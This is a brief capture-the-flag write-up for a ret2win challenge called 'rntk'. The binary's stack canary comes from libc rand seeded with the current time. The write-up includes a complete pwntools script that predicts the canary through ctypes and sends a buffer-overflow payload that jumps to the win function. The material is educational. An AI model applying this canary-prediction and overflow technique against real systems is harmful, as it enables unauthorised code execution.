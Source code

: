 # rntk

The challenge is a simple ret2win one with the only complication being that the binary uses a custom generated canary. It uses the `rand` function in libc to generate it and uses the current time as seed for it's value. We use `ctypes` to call `rand` to get the canary value and then we can do a ret2win.

```python
from pwn import *
from time import time
from ctypes import CDLL
context.arch = "amd64"
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")

io = process("./chal")
# io = remote("amt.rs", 31175)
elf = ELF("./chal")

current_time = int(time())
libc.srand(current_time)
canary = libc.rand()

io.sendlineafter(b'Exit', b'2')

payload = b"A"*44
payload += p32(canary)
payload += b"A"*8
payload += p64(elf.sym["win"])

io.sendlineafter(b'guess: ', payload)

io.interactive()
```